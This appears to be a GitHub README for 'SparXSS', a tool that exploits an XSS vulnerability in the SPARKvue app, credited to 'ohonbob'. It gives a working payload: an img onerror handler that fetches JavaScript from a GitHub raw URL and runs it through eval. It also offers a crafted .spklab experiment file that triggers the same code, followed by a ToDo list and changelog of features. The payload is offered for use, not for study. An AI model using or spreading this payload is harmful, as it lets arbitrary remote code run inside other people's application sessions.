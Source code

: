 ## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```

Or Download The SparXSS.spklab File And Select 'Open Saved Experiment' When You Open The App

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
  (currently working, may be changed in the future- change the link from /sparxss.js to /Testing/test4.js to use)
- May add a tabbing feature to the javascript, but this is not a final decision

## Changelog

10/27/2023
- Added a third button in the hyperlinks menu that lets you copy the text in the textbox, so you can keep adding links incase you either dont want to export the file, or want to keep adding links<br>
  If you do hit the copy button, all you have to do is paste the stuff copied to your clipboard in the textbox when reopening the app
- Added cancel feature to the menu that you type the hyper link URL's in, so you don't have to when you click the button
- Might have found a way to save the textbox .value without manually clicking it, contrary to what I had previously thought you had to do from yesterday

10/26/2023
- Found out you have to click the textbox to update it before exporting to make the links actually save
- Made the javascript box load with the script instead of everytime the button is clicked

10/25/2023
- Basic link saving functionality added
- The hyperlink button now accepts pressing enter to add a hyperlink

10/24/2023
- The checkpoint2 and getFaviconUrl functions have been combined into 1 function (only checkpoint2 now)
- The Hyperlink URL can now have https:// when it could not before
- Uploaded New SparXSS.spklab file to reflect the updates made so far

